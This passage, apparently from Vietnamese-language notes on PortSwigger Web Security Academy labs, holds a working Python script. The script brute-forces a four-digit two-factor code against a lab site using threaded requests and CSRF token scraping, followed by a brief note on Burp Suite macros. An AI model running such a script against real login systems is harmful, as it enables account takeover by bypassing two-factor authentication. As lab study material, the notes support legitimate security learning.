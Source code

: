 ```
    # Đăng nhập với user carlos
    session.post(url + '/login', data=login1Data)

    # Lấy token CSRF của trang nhập mã 2FA
    login2Request = session.get(url + '/login2')
    soup = BeautifulSoup(login2Request.text, 'html.parser')
    login2CsrfToken = soup.find('input', {'name': 'csrf'}).get('value')

    login2Data = {
        'csrf': login2CsrfToken,
        'mfa-code': number
    }

    # Gửi mã 2FA
    result = session.post(url + '/login2', data=login2Data)

    # Nếu đăng nhập thành công, dừng brute-force
    if 'Incorrect security code' not in result.text:
        found = True
        print(f'\n[+] Found security code: {number}')
        return

def main():
    url = 'https://0aa3005a0329b950c25d170a00dd0025.web-security-academy.net'
    
    # Tạo danh sách mã 2FA từ 0000 đến 9999
    listNumbers = [f'{i:04d}' for i in range(10000)]

    # Khởi tạo session chung cho tất cả request
    session = requests.Session()

    # Sử dụng ThreadPoolExecutor để quản lý số luồng tối đa
    with ThreadPoolExecutor(max_workers=10) as executor:
        for number in listNumbers:
            if found:  # Nếu đã tìm thấy mã, dừng việc gửi request
                break
            executor.submit(sendRequest, url, number, session)

if __name__ == '__main__':
    main()
```

>💡MACRO
Macro giúp tự động hóa các request phức tạp trong Burp Suite.
Được sử dụng để xử lý token động, làm mới session, và chuỗi request liên tiếp.
Hữu ích khi cần tấn công web có nhiều bước xác thực hoặc token động.

___

## Vulnerabilities in other authentication mechanisms
